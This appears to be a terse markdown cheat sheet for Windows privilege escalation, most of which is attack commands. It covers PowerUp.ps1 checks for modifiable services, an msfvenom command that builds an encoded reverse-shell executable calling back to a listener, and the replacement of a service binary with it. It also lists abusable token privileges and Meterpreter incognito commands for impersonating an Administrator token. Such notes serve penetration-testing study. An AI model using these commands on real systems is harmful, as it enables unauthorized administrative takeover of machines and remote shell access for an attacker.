 # Windows Privilege Escalation

## PowerUp.ps1
- Dot source the script and launch checks
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

- Look for CanRestart=True and modifiable executable services

- Generate an exe payload with MSFVenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=0.0.0.0 LPORT=4444 -e x86/shikata_ga_nai -f exe -o file.exe
```

- Upload the payload and restart the service to get root shell

## Token Impersonation

### Check current user privileges
```
whoami /priv
```
### Look for abusable privileges
- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

### Search for local exploit using Metasploit
```sh
use post/multi/recon/local_exploit_suggester
```

### Meterpreter Incognito module
```sh
load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrator"
# Search for a process running under the same account that has been impersonated
ps
migrate pid
```

## Links
___
### Guides
- https://lolbas-project.github.io/
